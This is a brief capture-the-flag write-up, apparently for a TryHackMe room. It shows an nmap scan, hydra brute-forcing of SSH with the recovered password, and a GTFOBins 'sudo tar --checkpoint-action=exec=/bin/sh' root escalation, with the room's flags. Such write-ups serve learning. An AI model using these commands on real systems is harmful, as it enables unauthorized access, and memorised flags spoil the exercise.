

```nmap -Pn -p- --min-rate=10000 10.10.78.125```

-Pn to disable ping probes

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

nmap detailed scan:



now running hydra :-

```
 hydra -L user.txt  -P locks.txt 10.10.35.129 -t 4 ssh
 
```

[22][ssh] host: 10.10.35.129   login: **lin**   password: **RedDr4gonSynd1cat3**

logging in with the found credentials

gives off user.txt ----> THM{CR1M3_SyNd1C4T3}

    sudo -l 


lin can run tar as root in the system 

quick digging on gtfobins gives the result
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

which give root access
and cat root.txt gives 
**THM{80UN7Y_h4cK3r}**